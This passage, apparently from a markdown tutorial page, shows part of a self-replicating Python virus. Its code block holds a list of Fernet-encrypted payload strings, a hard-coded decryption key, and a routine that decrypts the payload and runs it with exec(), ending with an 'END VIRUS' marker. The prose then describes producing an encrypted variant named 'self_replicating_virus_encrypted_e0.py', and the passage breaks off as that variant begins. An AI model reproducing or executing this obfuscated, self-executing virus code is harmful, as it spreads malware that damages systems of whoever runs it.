 ```py
ToTJAFVxgFFKHsJN3la7nVhDFyPtazBM33CSau5GTT_XXiQ90LN9yiFTTA8ZxV4V2dtoN0GVb_Tc2SD-6ALwyXSlqs=',b'gAAAAABf2NGYxEN9Y_Lu5tV-LaS1UL39p5kxAGC_kinY8RS7zCX8wD_ElxORL3wYMUUB1N1kyezXh2GHRwK1HihWmDQwVyTlZA==',b'gAAAAABf2NGYiAFW2-XdfYP8dp38Or72UT8a7W0t2BlZn0hia0DSKvslWY5j7QM-mcMbdTMiTd3n7ZxrC9MjGj9WXWHLekEZWwnRLUxxsidEH_Jw7TyduOM=',b'gAAAAABf2NGYiIPWmoRd937mAK3Rh1GHB-F5Qv11MmSF_dEtwU8EleYniI_fvID0BKiydT3jdK4LtNAiH4SBSz5G-zT4Z_2QNuBVPE-zafKcYY_Q6qLOcTs=',b'gAAAAABf2NGY8JdqRBH3OwXg6vK4L0ZPSvElA9A651xNPrOLxQ7WYnn0rt7KeMnmsTc1ZLOijaIi3FwSm_AWjdQ3-1XtDcefrA==',b'gAAAAABf2NGYWeFWPd961PMMC0T9FKa-5-AcBMvaspM5nsMVSG8sSeeEqHChbkoZj8pqPDQqtW6xNhsc2F-7Qe6dR4WvtXIT7w==',b'gAAAAABf2NGYBqnGf-YUWZIp5RTHl520oSyVOLxzBBczhpokald9yfSCuaT8R0xtv0EBGqWiUM1ZlfD_2PC9RiTFYDs3fSzytLmfq9docAB95ASt6iuYZss=',b'gAAAAABf2NGY3gP6RRkfTQyX4wCN8683al7xe74weuIzwYkFS1Qr5iV4nZj_PWpukcLarwFIjBq_xUIlCsxgv5XWAICxSp7YOixcKemAaIPFjtYrFWAUGY8=',b'gAAAAABf2NGYmZbMweMHfA4RS_GIbP_vtWZbrwnbeQuBt6BmqpzlR4MF8HZwpP0ZCRO6sS4v9rNAnuxtwWMQZrvVoD4uMaXfJA==',b'gAAAAABf2NGYwQwPxc1Tti2FWa3we-ZCaFDbq1_6_DKCzIhnAw__p9ZreJn7H7TKrTjy_eP5bO2kRWopLV2GaF-VfRPeWZPPhJsB6DYjSSQ_3Kny4KcNukY=',b'gAAAAABf2NGYN1akoPovYlprNiNUefA3Kw1uJQCLB0xlJJU1jXPmlHJAI8hIEVhCYdxRfH9q_GtZc50i6zh5PZrVP8KQM8xxsM4rtr9CCkH3RJyGxlmEZt9ZpocI8gch2OjzbBJn1Mgn',b'gAAAAABf2NGYEwANJ4-YehUGPaOToO_VAzmknnjSi4fnsvorq2u3B9GPCM1ESTQIVzUPEt-UWOcYd8odAve1RGha0LwoZOTpcd0-aTqGIUQhEr01sx63s2g=',b'gAAAAABf2NGYnBoflT7dvM2HgR-_WMJ8CMr4g8hu9MLgJU-ioUJneMoKlMs8iCgOAB_iwzHA16Bd5uV6vEsOISonK5c933Dmrw==']
##### END ENCRYPT #####

from cryptography.fernet import Fernet

decrypted_payload = []

def decrypt_payload():
  fernet = Fernet(b'ZBdrP1znue2godNiopGdPvEY7ypRsFSE3Y77qMcUhpc=')
  for elem in encrypted_payload:
    decrypted_payload.append((fernet.decrypt(elem)).decode())

decrypt_payload()
exec("".join(decrypted_payload))

###### END VIRUS ######

```

Then, by feeding this file to `encrypt_decryption.py` and calling the new virus `self_replicating_virus_encrypted_e0.py`, this will have the following form:

```py
##### START VIRUS #####

##### ENCRYPT #####
```